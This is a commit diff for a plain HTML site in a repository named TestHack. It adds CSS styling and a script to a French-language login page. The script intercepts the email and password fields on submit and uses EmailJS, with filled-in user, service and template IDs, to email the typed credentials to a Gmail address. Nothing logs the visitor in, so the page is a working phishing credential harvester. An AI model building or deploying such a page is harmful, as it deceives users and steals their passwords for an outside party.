

Before and after one commit to JustHoliab/TestHack, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-1015 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,6 +3,46 @@
 <head>
   <meta charset="UTF-8">
   <title>Page de Connexion</title>
+
+  <style>
+    body {
+      font-family: Arial, sans-serif;
+      margin: 0;
+      padding: 0;
+      background-color: #f4f4f4;
+    }
+
+    .container {
+      width: 50%;
+      margin: auto;
+      padding: 20px;
+      background-color: #fff;
+      border-radius: 5px;
+      box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
+      margin-top: 100px;
+    }
+
+    input[type="text"], input[type="password"], input[type="submit"] {
+      width: 100%;
+      padding: 10px;
+      margin: 8px 0;
+      display: inline-block;
+      border: 1px solid #ccc;
+      border-radius: 4px;
+      box-sizing: border-box;
+    }
+
+    input[type="submit"] {
+      background-color: #4CAF50;
+      color: white;
+      border: none;
+      cursor: pointer;
+    }
+
+    input[type="submit"]:hover {
+      background-color: #45a049;
+    }
+  </style>
 </head>
 <body>
   <div class="container">
@@ -10,32 +50,33 @@
     <form id="loginForm">
       <label for="email">Adresse email :</label>
       <input type="text" id="email" name="email" required>
+
       <label for="password">Mot de passe :</label>
       <input type="password" id="password" name="password" required>
+
       <input type="submit" value="Se connecter">
     </form>
     <p>Pas de compte ? <a href="/page-inscription">Créer un compte</a></p>
   </div>
 
   <script src="https://cdn.emailjs.com/dist/email.min.js"></script>
-    <script src="LoginForm.js"></script>
+  <script>
+    (function() {
+      emailjs.init("otwpjfwbYVYn56enm"); // Remplacez YOUR_USER_ID par votre identifiant EmailJS
 
-    <script>
-        (function(){
-            emailjs.init("YOUR_USER_ID"); // Remplacez YOUR_USER_ID par votre identifiant EmailJS
       document.getElementById('loginForm').addEventListener('submit', function(event) {
         event.preventDefault();
-                // Récupérer les valeurs du formulaire
+
         const email = document.getElementById('email').value;
         const password = document.getElementById('password').value;
 
-                // Envoyer les informations par email
-                emailjs.send("YOUR_SERVICE_ID", "YOUR_TEMPLATE_ID", {
+        emailjs.send("service_3h0kgzm", "template_celwf41", {
           email: email,
-                    password: password
+          password: password,
+          to_email: "Holiaboff@gmail.com"
         }).then(function(response) {
           console.log('Email envoyé avec succès!', response);
-                    // Ici vous pouvez rediriger l'utilisateur ou afficher un message de confirmation
+          // Vous pouvez rediriger l'utilisateur ici ou afficher un message de confirmation
         }, function(error) {
           console.error('Erreur lors de l\'envoi de l\'email:', error);
         });
```
Lines whose indentation alone changed are shown as unchanged.
